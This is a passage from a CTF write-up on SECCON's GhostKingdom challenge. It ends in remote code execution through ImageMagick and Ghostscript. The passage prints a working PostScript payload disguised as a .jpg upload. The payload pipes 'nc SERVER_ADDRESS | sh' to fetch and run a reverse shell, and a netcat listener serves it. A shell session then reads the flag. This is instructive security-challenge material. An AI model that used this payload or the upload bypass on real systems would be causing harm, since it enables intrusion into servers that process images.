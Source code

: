 A quick google search leads us to:

[https://stackoverflow.com/questions/42928765/convertnot-authorized-aaaa-error-constitute-c-readimage-453](https://stackoverflow.com/questions/42928765/convertnot-authorized-aaaa-error-constitute-c-readimage-453)

Darn, this is a locked down version of ImageMagick that blocks the conversion _because it's evil_. NEVERTHELESS WHO DO THEY THINK WE ARE!?

The final hurdle is bypassed by looking at the name of the cgi file, and the challenge name; `ghostMagick.cgi`, and `GhostKingdom`. This _very subtly_ hints at another Linux utility `ghostscript`. This is used to convert EPS and PDF files and such. But more importantly than formalised document formats, it also suffers from being exploitable based on user input very similarly to ImageTragick.

Now you might be thinking, "If Ghostscript only handles PDFs and EPS files, and we can only upload files ending in '.jpg'. Wot U Gonna Do??". Well, turns out ImageMagick is a very helpful lass. For in ImageMagick's eyes, _extensions are just suggestions_, it will attempt to work out what filetype to convert from by inspecting the first N bytes of an image! So using another, Ghostscript specific, payload:

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%(nc SERVER_ADDRESS 8000 | sh)) currentdevice putdeviceprops
```

Reverse shell served by:
```
cat exploit.sh | nc -lvp 8000 -q 1 > /dev/null
```

We pop a reverse shell and cat the flag!

```
bash-4.2$ cat FLAGflagF1A8.txt
SECCON{CSSinjection+GhostScript/ImageMagickRCE}
bash-4.2$ pwd
/var/www/html/FLAG
```

GG really fun challenge, I always love it when a web challenge I'm doing ends up giving an RCE. Thanks for reading!
